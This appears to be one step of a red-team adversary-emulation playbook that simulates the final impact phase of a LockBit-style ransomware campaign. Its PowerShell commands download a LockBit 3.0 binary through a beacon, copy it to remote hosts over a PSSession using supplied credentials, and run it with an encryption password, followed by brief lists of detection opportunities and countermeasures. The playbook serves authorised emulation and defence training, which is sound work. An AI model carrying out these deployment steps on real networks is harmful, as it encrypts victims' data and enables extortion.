 
# Step 6: Data Encrypted for Impact

**Objective**: Encrypt and deny access to critical systems to simulate a ransomware campaign with financial and operational impact.

---

## Context

- This step mimics the behavior of cybercriminals installing ransomware, encrypting critical systems.
- The Red Team still has beacon access to the environment.
- Previous actions (HVT enumeration, credential harvesting, and data exfiltration) have already been completed.
- Red Team maintains active beacon access to endpoints in the HR, FIN, ENG, and RND subnets.
This step simulates the final impact phase of a LockBit-style ransomware campaign.

---

## Execution

1. **Add Lockbit 3.0 to beacon**
```powershell=
download LB3_pass.exe C:\Windows\Temp\LB3_pass.exe
```
2. **Add Lockbit 3.0 to targets**  
```powershell=
# Create a new PSSession to the remote computer
# Replace RemoteComputerName with hostname or IP
$session = New-PSSession -ComputerName "RemoteComputerName" -Credential (Get-Credential)

# Copy the file from local to remote
Copy-Item -Path "C:\Windows\Temp\LB3_pass.exe" -Destination "C:\Windows\Temp\LB3_pass.exe" -ToSession $session

# Remove the PSSession
Remove-PSSession $session

```
3. **Run Lockbit 3.0**
```powershell
Invoke-Command -ComputerName "RemoteComputerName" -ScriptBlock { cd C:\Windows\Temp\; .\LB3_pass.exe -path C:\Users\Public -pass adedcf9741dacd1d2e9b819ff9abd028 }
```


---

## Result

- The data on the organization’s mission critical systems is encrypted
- Simulates final stage of a LockBit-style operation
- Request ransom money, and infects ecosystem with malware

---

## Detection Opportunities

- File name changes
- Outbound network traffic identifies ransomware
- Blue users can no longer access their machines 

---

## Defensive Countermeasures
- Backup and recovery methods to restore data
- Restrict execution to specified protected libraries
- File activity monitoring and ransomware protection
